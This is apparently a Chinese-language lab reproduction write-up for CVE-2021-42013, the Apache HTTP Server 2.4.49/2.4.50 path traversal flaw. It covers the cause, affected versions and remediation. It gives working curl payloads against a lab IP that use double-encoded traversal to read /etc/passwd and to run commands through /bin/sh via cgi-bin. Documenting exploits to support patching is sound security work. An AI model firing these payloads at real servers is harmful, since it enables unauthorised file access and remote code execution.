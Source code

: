 CVE-2021-42013
漏洞原理
Apache HTTP Server 2.4.50 中对 CVE-2021-41773 的修复不够充分。攻击者可以使用路径遍历攻击将 URL 映射到由类似别名的指令配置的目录之外的文件。如果这些目录之外的文件不受通常的默认配置 “要求全部拒绝” 的保护，则这些请求可能会成功。如果还为这些别名路径启用了 CGI 脚本，则可以允许远程代码执行。

影响版本
Apache 2.4.49 和 Apache 2.4.50

漏洞复现
启动漏洞环境

```
curl -v --path-as-is http://192.168.1.192:17273/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

![image-20211117203859430](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211117203859430.png)

在服务器上启用 mods cgi 或 cgid 后，此路径遍历漏洞将允许任意命令执行：

```bash
curl -v --data "echo;id" 'http://192.168.1.192:17273/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
或者
curl -s --path-as-is -d 'echo Content-Type: text/plain; echo; whoami' "http://192.168.1.192:17273/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh"
```

![image-20211117204116323](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211117204116323.png)

#### 修复方法

升级到Apache HTTP Server安全版本。

github上已经有这个漏洞的检测工具https://github.com/inbug-team/CVE-2021-42013